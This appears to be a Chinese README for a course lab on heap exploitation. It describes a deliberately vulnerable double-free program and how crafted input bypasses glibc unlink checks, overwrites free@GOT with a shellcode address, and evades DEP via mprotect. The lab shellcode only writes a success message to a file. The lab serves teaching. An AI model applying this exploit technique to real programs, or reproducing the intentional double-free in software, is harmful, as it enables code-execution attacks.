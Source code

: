 # 程序说明

---

## 1) vul
命名：double_free

漏洞：重复释放漏洞

攻击：代码注入攻击

Shellcode：写文件

**NOTE: 如果运行报错权限不够，就运行 `compile.sh` 再编译一次程序就可以成功运行。**

**由于系统对 double free 的检测十分严格，所以当程序员写出 double free 的程序时，系统会自动报错。为了绕过这些检测，我们故意在程序中进行两次 free，这在实际程序中不会存在，因此难以有实际的功能，我们这个漏洞程序就没有写实际的功能，只是展示了如何绕过现有的检测机制。**

本次代码注入攻击是借助 double free 实现的，通过用户编写程序时对申请的同一堆块 double free 的不慎操作获得一个可控指针，篡改 `free@got` 表内容，最终实现将对 free 函数的调用篡改为对 shellcode 的调用。
漏洞程序在课件 double free 部分中所给例子的基础上，稍加改动，漏洞程序主体如下：

```c
p0 = malloc(448);
p1 = malloc(512);
free(p0);
free(p1);
p2 = malloc(768);

memcpy(p2, buf, length);

free(p1); //double free
```

### 对于 double free 以及 unlink 实现细节的绕过：
本次试验攻击模式为单纯的输入数据攻击，随着操作系统安全性的增强，存在防止堆溢出的检测代码，如下：

```c
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
  malloc_printerr (check_action, "corrupted double-linked list", P, AV);
```
	
   	
其基本含义为：当前堆块的上一堆块中指向下一堆块的指针和当前堆块的下一堆块中指向上一堆块的指针，如果不是指向当前堆块的话，程序就会崩溃退出。
为绕过其检查，需要对注入数据进行特殊构造。已知堆块结构中存在两个指向前后空闲堆块的指针：

```c
struct malloc_chunk* fd;
struct malloc_chunk* bk;
```
	
在注入数据中将两个内存区域分别覆盖为：

```c
p0+16 = &p0-24; //本程序中为0x0000000000601090-24
p0+24 = &p0-16; //本程序中为0x0000000000601090-16
```

即 shellcode 中：

```
\x78\x10\x60\x00\x00\x00\x00\x00
\x80\x10\x60\x00\x00\x00\x00\x00
```

同时，为了绕过 unlink 时对于要释放的堆块大小的检查，在申请的堆块 `p0` , `p1` 的相关位置需覆盖如下数据：

```c
p0 = 0; //十六进制为0x0000000000000000
p0+8 = 448+1; //十六进制为0x00000000000001c1
p1-16 = 448; //十六进制为0x00000000000001c0
p1-8 = 320; //十六进制为0x0000000000000140
```

均可在 shellcode 注入数据的相关位置查看。

这样即可绕过 double free 以及 unlink 的所有相关检查，并可以获得一个可控指针。
之后寻找到 `free@got` 地址 `0x00000000000601018`，将其篡改为 shellcode 地址，本程序为 `p2+32`，那么在用户再次调用 `free(p2)` 时，即转到shellcode的调用，从而实现攻击。

### 对于操作系统相关保护的绕过：
首先，为了绕过 DEP，将 shellcode 所在页改为可执行，代码如下：

```c
mprotect((void *)((uint64_t)p2 & ~4095), 4096, PROT_WRITE|PROT_READ|PROT_EXEC);
```
	
其次，为了绕过ASLR，漏洞程序在构造的过程中对堆块指针进行全局声明，如下：

```c
unsigned char *p0;
unsigned char *p1;
unsigned char *p2;
```

最后，本程序不牵扯栈保护的相关内容。

## 2) input
`input.txt` 此文件为 shellcode，其功能为向 `output`文件夹中的 `double_free_injection_output.txt` 文件中写入字符串 `Double free attack success!`

## 3) output
如果攻击成功会产生 `double_free_injection_output.txt` 文件，文件内容为 `Double free attack success!`
如果攻击失败，将不产生文件，或文件为空

## 4) check
命名：`double_free_injection_check`
获取 `output` 文件夹下 `double_free_injection_output.txt` 文件
如果此文件不存在，或为空，返回失败信息，否则将此文件中的信息返回

## 5) compile.sh  define.json
编译命令和配置信息已经写入 `compile.sh` 和 `define.json` 文件

## 6) shellcode 生成 
用汇编写一段满足攻击要求的程序 `shellcode.asm`
按照如下命令生成 shellcode :
```bash
nasm -f elf64 shellcode.asm -o shellcode.o
ld -s -o shellcode shellcode.o
for i in $(objdump -d shellcode |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
```



